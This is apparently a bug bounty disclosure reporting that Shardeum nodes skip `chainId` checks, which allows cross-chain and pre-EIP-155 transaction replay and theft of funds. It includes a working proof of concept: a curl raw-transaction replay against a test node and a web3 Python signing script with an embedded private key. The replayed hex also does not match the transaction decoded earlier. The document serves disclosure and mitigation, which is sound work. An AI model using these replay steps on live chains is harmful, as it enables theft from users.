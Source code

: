 # 33473 - \[BC - High] Cross-chain replay attacks are possible due to ...

Submitted on Jul 21st 2024 at 21:04:08 UTC by @anton\_quantish for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33473

Report type: Blockchain/DLT

Report severity: High

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:

* Direct loss of funds

## Description

## Brief/Intro

The `chainId` transaction parameter is not checked before it's executed that leads to cross-chain replay attacks.

## Vulnerability Details

Every blockchain has its own unique `chainId` which should prevent the cross-chain replay attacks.

Let's imagine some address `0x1` sends 1 ether in the Ethereum to attacker (`0x2`). He makes a tx like the following, signs it, and submits in the Ethereum:

```json
{"chainId": 1, "from": "0x1", "to": "0x2", "value": 1000000000000000000, "nonce": 0}
```

The tx is successfully executed and the attacked got his 1 ether on the Ethereum.

Then, the attacker copies this signed transaction and submits it in the Shardeum.

Usually, the node first checks the signature and then checks if the `chainId` belongs to the node's blockchain or not. The Shardeum nodes, however, don't check it so, if the `0x1` address has sufficient balance in the Shardeum, the transaction will be executed because the tx signature itself is valid.

Thus, the attacker will steal 1000000000000000000 SHM from the victim.

Also, as I see, the Shardeum nodes ignore the absence of the `chainId` tx field. All the Ethereum transactions before EIP-155 do not have this field. So, these old transactions could be replayed as well (see the `Mitigation` section).

## Impact Details

The attacker can replay arbitrary transactions from other blockchains which leads to a direct loss of the user funds.

## Mitigation

Receiving a tx you MUST check that:

* the `chainId` is present and is equal to the current blockchain chainId (8080 by default);
* the `chainId` field is signed and the signature is valid.

## References

https://github.com/ethereum/EIPs/blob/master/EIPS/eip-155.md https://mirror.xyz/0xbuidlerdao.eth/lOE5VN-BHI0olGOXe27F0auviIuoSlnou\_9t3XRJseY https://www.quicknode.com/guides/ethereum-development/smart-contracts/what-are-replay-attacks-on-ethereum

## Proof of Concept

First, let's check the `chainId`-absent transactions could be replayed.

1. Navigate to the following TX in Etherscan: https://etherscan.io/tx/0x5c504ed432cb51138bcf09aa5e8a410dd4a1e204ef84bfed1be16dfba1b22060 This is the very first Tx set in the Ethereum blockchain
2. In the top-right corner you can switch the view to a raw tx hex. It's the following:

```
0xf86780862d79883d2000825208945df9b87991262f6ba471f09758cde1c0fc1de734827a69801ca088ff6cf0fefd94db46111149ae4bfc179e9b94721fffd821d38d16464b3f71d0a045e0aff800961cfce805daef7016b9b675c137a6a41a548f7b60a3484c06a33a
```

If you decode it with https://www.ethereumdecoder.com/?search=0xf86780862d79883d2000825208945df9b87991262f6ba471f09758cde1c0fc1de734827a69801ca088ff6cf0fefd94db46111149ae4bfc179e9b94721fffd821d38d16464b3f71d0a045e0aff800961cfce805daef7016b9b675c137a6a41a548f7b60a3484c06a33a you will see, the tx body is

```json
{
  "nonce": 0,
  "gasPrice": {
    "_hex": "0x2d79883d2000"
  },
  "gasLimit": {
    "_hex": "0x5208"
  },
  "to": "0x5df9b87991262f6ba471f09758cde1c0fc1de734",
  "value": {
    "_hex": "0x7a69"
  },
  "data": "0x",
  "v": 28,
  "r": "0x88ff6cf0fefd94db46111149ae4bfc179e9b94721fffd821d38d16464b3f71d0",
  "s": "0x45e0aff800961cfce805daef7016b9b675c137a6a41a548f7b60a3484c06a33a"
}
```

3. Start the nodes and the JSON-RPC server, fill the `0xA1E4380A3B1f749673E270229993eE55F35663b4` balance with some SHM (it will need more than 31337 + gas)
4. Replay this tx with the following cURL command:

```
curl http://172.16.205.128:8080 -X POST -H "Content-Type: application/json" --data '{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf86b808501dcd6500082520894e952ad0d1ff706e47bcea25d29a918126efb0a99871c6bf5263400008026a0b2e4be2b39797e24f418a61378c828a7ee0e5662d011cf58ffd6fdc4d91fff84a057753b07aadf290e4fa6d8f9c533dec5e0dccb87e67cadca08d169ff6297c73b"],"id":1}' 
{"jsonrpc":"2.0","id":1,"result":"0x582b88655a7dad511eb477e445ebcfbc1c9ea5366ace3df7ac1d8b7f05813ea7"}
```

5. Wait a little, make sure the tx is executed successfully and the transfer of 31337 SHM is made from `0xA1E4380A3B1f749673E270229993eE55F35663b4` to `0x5df9b87991262f6ba471f09758cde1c0fc1de734` despite we don't know the sender private key.

As for the transactions with `chainId` field replaying, it's a bit difficult to reproduce because all the modern Ethereum transactions uses `maxFeePerGas` and `maxPriorityFeePerGas` fields but your RPC rejects it for some reason. To reproduce, you can just sign a tx for the different chain and then submit it to the Shardeum JSON-RPC using the following python script:

```python
from web3 import Web3
w3 = Web3(Web3.HTTPProvider('http://172.16.205.128:8080'))

FROM = '0x1d9f3e0620b7f19794a01da018fae85c534ae97e'

transaction = {
    'from': '0x1d9f3e0620b7f19794a01da018fae85c534ae97e',
    'to': '0xa54E321c2A394451F3286386cA26BE2317B4C212',
    'value': 2,
    'nonce': 0,
    'gas': 200000,
    'gasPrice': 10000,
    'chainId': 137  # Polygon
}

# 2. Sign tx with a private key
signed = w3.eth.account.sign_transaction(transaction, '0xed70dc3717453ccbd9147ff5da9ad4f2c87a8a0d9861f83b116400e0fa31632a')
print(signed)

# 3. Send the signed transaction
tx_hash = w3.eth.send_raw_transaction(signed.rawTransaction)
tx = w3.eth.get_transaction(tx_hash)
print(tx)
```

Just fill the sender `0x1d9f3e0620b7f19794a01da018fae85c534ae97e` with some SHM before the executing.

It should be rejected because of `chainId` differs from your own one, but the tx is successfully executed instead. In a real life it could be the tx that were previously submitted into other blockchain and then replayed on the Shardeum.
